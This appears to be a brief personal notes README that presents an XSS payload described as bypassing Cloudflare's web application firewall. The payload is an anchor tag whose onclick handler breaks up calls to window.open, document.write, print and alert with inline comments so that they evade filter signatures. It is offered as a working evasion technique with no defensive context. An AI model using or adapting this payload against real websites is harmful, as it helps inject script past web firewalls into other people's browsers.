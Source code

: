 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

